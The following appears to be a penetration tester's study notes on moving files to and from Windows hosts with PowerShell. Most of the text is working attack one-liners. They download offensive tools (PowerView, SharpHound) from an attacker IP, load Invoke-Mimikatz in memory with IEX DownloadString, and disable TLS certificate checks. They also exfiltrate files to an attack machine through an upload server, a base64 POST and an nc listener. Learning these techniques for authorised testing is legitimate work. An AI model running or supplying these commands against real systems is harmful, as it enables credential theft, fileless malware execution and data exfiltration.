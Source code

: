 ## Download

```powershell-session
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```

```
(New-Object Net.WebClient).DownloadFile('http://10.10.14.26:8000/SharpHound.ps1','C:\Users\olivia\Desktop\SharpHound.ps1')
```

Instead of downloading executables, we can try to run it directly in memory using the `Invoke-Expression cmdlet (IEX)` and `DownloadString`

```powershell-session
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

might also be able to use 
```
wget/curl link -OutFile file.name
```


Important Flags 
`-UseBasicParsing` - if powershell has yet to finish basic configurations

Error:
If SSL/TLS secure channel if certificate is not trusted
```
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
run the command again


## Upload
Set up a web server that accepts uploads on our attack machine

On attack machine 
```
pip3 install uploadserver
python3 -m uploadserver
```


use a PowerShell script [PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1) which uses `Invoke-RestMethod` to perform the upload operations
```
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```

```powershell-session
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

Can also convert to base64 and then upload too
```
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
```

```
powershell-session
 Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

can catch the base64 in nc
```shell-session
nc -lvnp 8000
```

then decode it
```shell-session
echo <base64> | base64 -d -w 0 > outfile
```


